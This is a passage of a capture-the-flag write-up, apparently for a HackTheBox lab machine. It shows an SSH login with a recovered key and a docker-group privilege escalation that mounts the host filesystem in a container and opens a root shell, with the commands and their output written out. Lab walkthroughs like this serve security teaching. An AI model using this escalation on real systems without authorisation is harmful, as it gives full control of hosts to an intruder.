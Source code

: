 We can now `re-login` via ssh and check our groups:

```bash
ssh lynik@10.10.10.189 -i /tmp/lynik.key 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Fri 11 Sep 2020 03:26:34 PM UTC

  System load:                      0.16
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        205
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Fri Sep 11 15:20:51 2020 from 10.10.14.2
lynik@travel:~$ id
uid=5000(lynik) gid=117(docker) groups=117(docker),5000(domainusers)
```

We are indeed part of the docker group and can now start with the `root-privesc`.

### Docker privesc

Let us check if we have any images we can use to `mount` the `server's filesystem` and get arbitrary read and `write access`.

```bash
lynik@travel:~$ docker images
REPOSITORY            TAG                 IMAGE ID            CREATED             SIZE
nginx                 latest              602e111c06b6        4 months ago        127MB
memcached             latest              ac4488374c89        4 months ago        82.3MB
blog                  latest              4225bf7c5157        5 months ago        981MB
ubuntu                18.04               4e5021d210f6        5 months ago        64.2MB
jwilder/nginx-proxy   alpine              a7a1c0b44c8a        7 months ago        54.6MB
osixia/openldap       latest              4c780dfa5f5e        11 months ago       275MB
```

We can use any of these images. I am going to use the `first one`.

```bash
lynik@travel:~$ docker run -v /:/mnt --rm -it nginx chroot /mnt bash
root@a33082903282:/# cd root
root@a33082903282:~# ls -alh
total 48K
drwx------  8 root root 4.0K May 15 11:47 .
drwxr-xr-x 21 root root 4.0K Sep 11 15:20 ..
lrwxrwxrwx  1 root root    9 Apr 29 08:04 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K May 15 11:47 .cache
drwx------  3 root root 4.0K Apr 28 16:10 .config
drwxr-xr-x  3 root root 4.0K May  7 08:10 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Apr 23 19:55 .selected_editor
drwx------  2 root root 4.0K Apr 24 21:31 .ssh
drwx------  2 root root 4.0K Apr 28 19:51 bin
-r--------  1 root root   33 Sep 11 14:43 root.txt
drwxr-xr-x  3 root root 4.0K Apr 23 15:49 snap
```
